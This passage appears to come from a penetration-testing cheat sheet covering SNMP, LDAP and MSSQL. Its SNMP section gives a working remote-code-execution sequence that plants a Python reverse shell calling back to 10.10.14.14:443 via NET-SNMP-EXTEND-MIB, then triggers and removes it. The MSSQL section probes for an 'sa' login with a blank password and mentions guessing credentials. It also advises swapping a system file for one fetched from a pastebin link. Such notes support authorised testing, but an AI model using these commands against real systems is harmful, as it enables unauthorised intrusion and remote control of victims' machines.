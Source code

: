 When using the `-m +ALL` argument, I got the error:

```
Bad operator (INTEGER): At line 73 in /usr/share/snmp/mibs/ietf/SNMPv2-PDU
```

There is a typo in the file that gets pulled by `snmp-mibs-downloader`. The fix is to replace the existing file with a corrected version, which is located [here](http://pastebin.com/raw/p3QyuXzZ).

### 4.12.2. RCE with SNMP

See [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)

Easy library to do this: [https://github.com/mxrch/snmp-shell.git](https://github.com/mxrch/snmp-shell.git)

```sh
# manually create reverse shell (update listener IP)
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = createAndGo 'nsExtendCommand."derp"' = /usr/bin/env 'nsExtendArgs."derp"' = 'python -c "import sys,socket,os,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.create_connection((\"10.10.14.14\",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"'

# trigger reverse shell by reading the OID
snmpwalk -v2c -c private $VICTIM_IP NET-SNMP-EXTEND-MIB::nsExtendObjects

# delete the reverse shell command from the SNMP table
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c private $VICTIM_IP 'nsExtendStatus."derp"' = destroy
```

This abuses the NET-SNMP-EXTEND-MIB functionality. See [technical writeup](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/)

## 4.13. 389 - LDAP

TODO

## 4.14. 1433 - MSSQL

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It supports storing and retrieving data across a network (including the Internet).

```sh
# check for known vulns
searchsploit "microsoft sql server"

# if you know nothing about it, try 'sa' user w/o password:
nmap -v -n --script="safe and ms-sql-*" --script-args="mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER" -sV -p 1433 -oA nmap/safe-ms-sql $VICTIM_IP
# if you don't have creds, you can try to guess them, but be careful not to block
# accounts with too many bad guesses
```

See [MSSql Interaction](#4142-mssql-interaction) for how to connect, interact.

**Post-Exploit PrivEsc**


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744